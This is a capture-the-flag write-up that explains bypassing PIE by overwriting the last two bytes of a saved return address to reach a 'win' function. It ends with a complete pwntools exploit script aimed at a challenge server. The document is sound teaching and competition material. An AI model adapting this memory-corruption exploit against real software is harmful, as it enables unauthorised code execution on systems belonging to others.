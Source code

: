 2. **Calculating the address of win**  
Due to PIE, the address of **win** will change everytime the binary is run. This means that the base offset of the address will change and only the last 2 bytes are known.   

   Luckily for us, when we overwrite RIP, it contains the address of `main + 1501`. This means we only have to overwrite the last 2 bytes of RIP to call **win**, thus bypassing PIE. The last byte of **win**, which is fixed, is 0xa1. We can calculate the second last byte using `offset = (saved_rip - win) >> 8`, where `saved_rip` is the address of `main + 1501` and `win` is the address of **win**. This works as the difference between **win** and `main + 1501` is constant regardless of PIE.

3. **Overwriting RIP with the address of win**  
An offset of 103 overwrites the second last byte of RIP while 104 overwrites the last byte. The following code overwrites the last 2 bytes of RIP to become the address of **win**:
   ```python
    payload = '0' + 'd'*103 + 'r' + "0au" + 'd'*offset + 'u'
    payload += '0' + 'd'*104 + 'r' + '0' + 'i'*0xa1 + 'u'
   ```    

Here's the final exploit used to solve the challenge:
```python
from pwn import *
from LibcSearcher import LibcSearcher
import sys

config = {
    "elf" : "./chal",
    #"libc" : "./",
    #"ld" : "./",
    "HOST" : "challs.hats.sg",
    "PORT" : 1308,
}

def exploit(p):
    win = elf.symbols['win']
    saved_rip = elf.symbols['main']+1501
    offset = (saved_rip - win) >> 8

    payload = '0' + 'd'*103 + 'r' + "0au" + 'd'*offset + 'u'
    payload += '0' + 'd'*104 + 'r' + '0' + 'i'*0xa1 + 'u'
  
    sla("Enter the key\n", payload)
    p.interactive()

if __name__ == "__main__":
    elf = context.binary = ELF(config["elf"])

    if "libc" in config.keys() and config["libc"]:
        libc = ELF(config["libc"])

    if sys.argv[-1] == "remote":
        p = remote(config["HOST"], config["PORT"])
    else:
        if "libc" in dir(): 
            p = process([config["ld"], config["elf"]], env={"LD_PRELOAD" : config["libc"]})
        else: 
            p = process(config["elf"])

        pause()

    sl = lambda a: p.sendline(a)
    sla = lambda a,b: p.sendlineafter(a,b)
    r = lambda a: p.recv(a)
    ru = lambda a: p.recvuntil(a)
    lg = lambda a : log.info(a)

```